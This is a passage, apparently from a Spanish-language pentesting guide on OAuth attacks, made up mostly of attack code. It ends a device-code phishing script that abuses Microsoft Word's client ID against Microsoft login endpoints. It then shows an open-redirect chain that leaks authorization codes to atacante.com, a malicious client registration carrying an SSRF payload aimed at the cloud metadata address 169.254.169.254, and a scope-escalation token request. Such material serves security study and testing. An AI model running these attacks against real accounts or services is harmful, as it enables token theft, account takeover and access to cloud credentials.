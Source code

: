 ```python
          
        else:
            print(f"[-] Error: {token_result}")
            break
  
    return None

# Ejemplo de uso
token = device_code_attack(
    client_id="d3590ed6-52b3-4102-aeff-aad2292ab01c",  # Microsoft Word
    scope="https://graph.microsoft.com/.default",
    auth_url="https://login.microsoftonline.com/common/oauth2",
    token_url="https://login.microsoftonline.com/common/oauth2"
)
```

---

## Explotación y Automatización

### Variantes avanzadas

**1. Chaining con Open Redirects:**

```bash
# Si victima.com/redirect es vulnerable a open redirect
https://oauth-provider.com/auth?redirect_uri=https://victima.com/redirect?url=https://atacante.com/collect
```

**2. OAuth Application Registration Attack:**

```python
# Registro dinámico de cliente malicioso
malicious_app = {
    "redirect_uris": ["https://atacante.com/callback"],
    "logo_uri": "http://169.254.169.254/latest/meta-data/",  # SSRF
    "application_type": "web"
}

requests.post("https://victima.com/.well-known/openid_clients_registration", 
              json=malicious_app)
```

**3. Scope Upgrade Attack:**

```python
# Intercambio de código con scope escalado
token_request = {
    'grant_type': 'authorization_code',
    'code': 'intercepted_code',
    'client_id': 'malicious_client',
    'client_secret': 'secret',
    'scope': 'read write admin'  # Más permisos que los originalmente autorizados
}
```
